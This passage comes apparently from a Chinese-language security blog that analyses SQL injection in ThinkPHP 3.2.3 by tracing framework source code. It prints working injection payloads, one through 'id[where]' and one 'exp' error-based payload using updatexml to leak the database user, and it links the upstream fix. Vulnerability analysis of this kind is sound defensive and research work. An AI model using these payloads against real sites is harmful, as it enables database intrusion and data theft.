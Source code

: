 **如果满足if条件则进入** `ThinkPHP/Library/Think/Model.class.php:737`
```php
protected function _parseType(&$data, $key)
{
    if (!isset($this->options['bind'][':' . $key]) && isset($this->fields['_type'][$key])) {
        $fieldType = strtolower($this->fields['_type'][$key]);
        if (false !== strpos($fieldType, 'enum')) {
            // 支持ENUM类型优先检测
        } elseif (false === strpos($fieldType, 'bigint') && false !== strpos($fieldType, 'int')) {
            $data[$key] = intval($data[$key]);
        } elseif (false !== strpos($fieldType, 'float') || false !== strpos($fieldType, 'double')) {
            $data[$key] = floatval($data[$key]);
        } elseif (false !== strpos($fieldType, 'bool')) {
            $data[$key] = (bool) $data[$key];
        }
    }
}
```
在这他把id进行了强制类型转换，然后返回给`_parseOptions()`，最终带入`$this->db->select($options)`进行查询避免了注入问题。

理一下 传入`id=1'` -> `I()` -> `find()` -> `_parseOptions()` -> `_parseType()` 然后将我们的字符串清理了。
要知道id参数被改变的时间点在`_parseType()`中，那进入这个方法要满足
```php
if (isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join']))
```
所以传入`index.php?id[where]=3 and 1=1`就可以注入了
### 修复
https://github.com/top-think/thinkphp/commit/9e1db19c1e455450cfebb8b573bb51ab7a1cef04
![image](https://y4er.com/img/uploads/20191127224820.jpg)

`v3.2.4`将`$options`和`$this->options`进行了区分，从而传入的参数无法污染到`$this->options`，也就无法控制sql语句了。

## thinkphp 3.2.3 exp注入
### payload
![image](https://y4er.com/img/uploads/20191127227978.jpg)
```
http://php.local/thinkphp3.2.3/index.php?username[0]=exp&username[1]==1 and updatexml(1,concat(0x7e,user(),0x7e),1)
```
### 环境
```php
public function index()
{
    $User = D('Users');
    $map = array('username' => $_GET['username']);
    // $map = array('username' => I('username'));
    $user = $User->where($map)->find();
    var_dump($user);
}
```
我们使用全局数组传参，而不是`I()`函数。下文会解释
### 分析
打断点分析，`find()`函数会执行到`ThinkPHP/Library/Think/Model.class.php:822`的`$this->db->select($options)`
```php
public function select($options = array())
{
    $this->model = $options['model'];
    $this->parseBind(!empty($options['bind']) ? $options['bind'] : array());
    $sql    = $this->buildSelectSql($options);
    $result = $this->query($sql, !empty($options['fetch_sql']) ? true : false);
```
